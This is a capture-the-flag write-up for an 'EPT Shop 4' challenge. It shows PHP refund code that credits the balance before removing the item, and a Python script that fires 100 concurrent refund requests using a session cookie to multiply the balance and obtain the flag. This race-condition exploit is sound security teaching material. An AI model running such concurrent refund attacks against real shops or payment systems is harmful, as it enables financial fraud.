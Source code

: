 ## Shop 4 Writeup
###### Author/solved by: Tinius
###### Team: Datasnok

## Challenge description
```text
by null

We always aim to make things bigger and better! Our shop now boasts more items than ever before and has scaled up to support way more users than previous years with a blazingly fast frontend!

If you should manage, somehow to buy the new exclusive EPT fan merchandise, you can claim 5 physical instances at the admin booth after you have bought the fan in the shop and submitted the flag on the platform!
```


## Initial thoughts
Firstly I thought that the application was acceptable to sql injections, but realised quickly that that was not the case.
Then looking at the docker-compose.yaml
```yaml
version: '3'

services:
  # Our blazingly fast frontend!
  apache:
    build: .
    ports:
      - "8000:80"
    environment:
      - DB_URL=mysql://shop:shop@db/shop

  # TODO: Upgrade database in production to be as fast as our frontend.
  db:
    build: ./db
    ports:
      - "3306:3306"
    environment:
      - MYSQL_ROOT_PASSWORD=root
      - MYSQL_DATABASE=shop
      - MYSQL_USER=shop
      - MYSQL_PASSWORD=shop
```
Here we are hinted with
```text
  # Our blazingly fast frontend!
  and
  # TODO: Upgrade database in production to be as fast as our frontend.
```
Then I thought of the possibility of a race condition.

## How the app works
![img.png](img/img.png)
We only have 100$ and we need 2,499\$ to buy the flag/fan.
We can buy the Race Car for 99,99\$ and refund it for 99,99\$.

![img_1.png](img/img_1.png)

Other than that there is noting special here.

## The code
How balance is updated:
```php
function updateUserbalance($userId, $balance) {
    $db = getDBConnection();
    $stmt = $db->prepare('UPDATE users SET balance = balance + ? WHERE id = ?');
    $stmt->bind_param('di', $balance, $userId);
    return $stmt->execute();
}
```
Where money is increased:
```php
elseif ($action === 'refund') {
  if (isset($user_items[$item_id]) && $user_items[$item_id] > 0) {
      if (updateUserbalance($user['id'], $item['price'])) {
          if (removeUserItem($user['id'], $item_id)) {
              $messages[] = [
                  "category" => "success",
                  "message" => "Item refunded successfully!"
              ];
              $user = getCurrentUser();
              $user_items = getItemsByUserId($user['id']);
          } else {
              $messages[] = [
                  "category" => "danger",
                  "message" => "Error removing item from user inventory."
              ];
              updateUserbalance($user['id'], -$item['price']);
          }
```
We can see that the balance is updated before the item is removed from the user. Without any other checks we can just refund the same item multiple times at the same time.

Request payload for refund:
```text
item_id=1&action=refund
```

## Trying to exploit
We can try to sell as many items as possible at the same time.

```python
import requests
import threading


url = "https://datasnok-af90-shop-4.ept.gg/"
headers = {
    "Cookie": "session_token=53bc705d6c6bea7d5a68424992142eb776635b5707eef70e563e1f18f8504cd5",
    "Content-Type": "application/x-www-form-urlencoded",
}

data = {
    "item_id": "1",
    "action": "refund"
}


def order():
    requests.post(url, headers=headers, data=data)


t = [threading.Thread(target=order, args=[]) for _ in range(100)]
for a in t:
    a.start()

```
![img_2.png](img/img_2.png)

Now we just need to run it one more time and hopefully we have enough money to buy the flag.

![img_3.png](img/img_3.png)

```text
EPT{th0s3_f4ns_g0_brrrr}
```